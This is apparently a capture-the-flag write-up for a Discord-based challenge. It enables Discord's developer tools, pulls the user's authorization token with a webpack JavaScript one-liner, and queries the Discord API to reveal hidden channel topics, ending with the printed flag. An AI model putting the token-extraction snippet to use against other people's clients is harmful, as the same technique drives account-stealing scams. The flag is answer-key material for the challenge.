

# Discord server

Checking the normal places yield nothing. None of the channels or topics have anything. No pinned message etc.

The discord guild id is 1153388061275721738.

# Developer console

Opening Discord in a browser, or enabling the developer console can access the discord internals.

Developer console can be enabled by opening `settings.json` and adding the following key.
```json
{
    "DANGEROUS_ENABLE_DEVTOOLS_ONLY_ENABLE_IF_YOU_KNOW_WHAT_YOURE_DOING": true,
}
```

# Authorization token

Getting the authorization token can be done from the JS console.

```js
var apitoken = (webpackChunkdiscord_app.push([[''],{},e=>{m=[];for(let c in e.c)m.push(e.c[c])}]),m).find(m=>m?.exports?.default?.getToken!==void 0).exports.default.getToken()
```

# Listing the channels

After we have the authorization token, the following can be used to retrieve the channel list from the discord API. This includes the hidden channels as well. Also the channel topics are visible for those channels. 

```js
fetch("https://discordapp.com/api/v9/guilds/1153388061275721738/channels", {headers: {"Authorization": apitoken}}).then(response => response.json()).then(response => response.forEach((element) => console.log(element)))
```



The `privacy-leak` hidden channel topic contains the flag.

# Flag
`cq23{th3_int3rn3t_doesn7_4GET_c1b3f4b5ca07b09306c29238640218b8}`
